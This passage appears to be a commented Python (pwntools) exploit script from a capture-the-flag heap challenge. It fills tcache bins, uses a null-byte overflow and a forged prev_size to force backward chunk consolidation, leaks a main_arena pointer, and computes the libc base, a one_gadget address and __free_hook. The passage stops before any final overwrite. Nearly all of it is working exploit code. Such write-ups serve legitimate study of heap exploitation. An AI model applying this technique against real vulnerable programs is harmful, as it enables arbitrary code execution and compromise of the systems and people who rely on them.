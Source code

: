 ```python
# Meaning that it will change the next chunks size to 0x100
# 0x100 chunks go into the 0xf0 tcache bin
# We prevent this since we want backwards consolidation to occur
# This will be evident further below
for i in range(7):
  add(0xf0)
for i in range(7):
  free(i+3)

# Fill up tcache bin 0x128
# We do this because of the same reason above
for i in range(7):
  add(0x128)
for i in range(7):
  free(i+3)

# Make chunk A go into unsorted bin
# This is important because we are consolidating chunk C back with both chunks A and B
# Meaning that unlink will be called with chunk A as it's second argument
# unlink has some security checks, one being that A's fd and bk must have valid pointers
# This free will put the pointers to `main_arena+0x58` into the fd and bk of A
free(0)

# Null byte overflow onto chunk C.
# C's size is now 0x100.
# C's prev_size is also set to 0x250
talk(1, 'B'*0x110 + p64(0x250))

# Before we free chunk C, we must create a fake chunk 0x100 bytes after chunk C
# This fake chunk must have its PREV_INUSE bit set to 1, hence we choose size 0x21
# This is required to bypass some checks when a chunk is freed into the unsorted bin
talk(2, 'C'*0xf8 + p64(0x21) + '\n')

# We free C now.
# C's prev_size is 0x250, so it will consolidate backwards 0x250 bytes (all the way up to A)
# Unsorted bin will now have a 0x350 sized chunk right on top of A
# A's fd and bk pointers will still have pointers to `main_arena+0x58`
free(2)

# Empty the 0x128 tcache bin so we can get chunks out of the unsorted bin
# Indexes taken up: 0, 2, 3, 4, 5, 6, 7
for i in range(7):
  add(0x128)

# Now adding a chunk of size 0x128 gives us a chunk from the unsorted bin
# In this case, unsorted bin will have a 0x350 sized chunk on chunk A
# We first add a 0x128 sized chunk so that the libc address gets moved down to chunk B
# This happens because now the unsorted bin will have a chunk starting at chunk B
add(0x128) # idx 8

# Now since we have a pointer to chunk B, we can leak the the fd pointer
# Remember the fd pointer just points to `main_arena+0x58`
libc_leak = u64(listen(1).ljust(8, '\x00'))

# Calculate needed offsets
libc.address = libc_leak - 0x3ebca0
one_gadget = libc.address + 0x4f322
free_hook = libc.symbols['__free_hook']

log.info('main arena leak: ' + hex(libc_leak))
log.info('Libc base: ' + hex(libc.address))
log.info('one gadget: ' + hex(one_gadget))
log.info('free_hook: ' + hex(free_hook))
```